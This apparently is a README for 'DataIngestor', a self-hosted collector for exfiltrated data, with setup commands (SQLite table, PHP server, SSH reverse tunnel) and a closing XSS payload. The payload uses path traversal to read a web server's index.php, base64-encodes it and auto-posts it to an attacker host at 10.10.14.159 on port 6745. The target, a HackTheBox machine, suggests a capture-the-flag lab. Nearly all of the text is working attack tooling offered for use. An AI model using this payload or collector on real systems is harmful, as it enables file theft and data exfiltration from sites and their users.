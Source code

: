 # DataIngestor

Create the database 
```console
cd 306d717c3f592af0186ed31e2f056a7d
sqlite3 data.db "CREATE TABLE entries (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    data TEXT NOT NULL,
    referrer TEXT,
    client_ip TEXT NOT NULL,
    entry_datetime DATETIME
);"
```

create a config.php file with:

```php

<?php

// Define the allowed CIDR range and IP addresses
$allowedCIDR = '19.12.0.0/16';
$allowedIPs = ['127.0.0.1']; //Add your ip to this array

?>
```

Run the php server
```console
php -S 0.0.0.0:6745 -t ./
```

Make the proxy conf on the remote server under /etc/nginx/conf.d/proxy.conf from proxy.conf.
if you want to work locally and forward your traffic through to another device

```console
ssh root@<remote-ip> -R 6745:127.0.0.1:6745
```

To send to the ingestor:

```console
curl -k -X POST -d "data=test" https://domain.com/
```

Send via xss:

```html
<img src=x onerror="fetch('/messages.php?file=../../../../../../../../var/www/statistics.alert.htb/index.php')
.then(response => response.text())
.then(data => {
f=document.createElement`form`;
f.innerHTML='<input name=data value='+btoa(data)+'>';
f.method='post';
f.action='http://10.10.14.159:6745/index.php';
document.body.appendChild(f);
f.submit();
document.body.removeChild(f);
});">
```
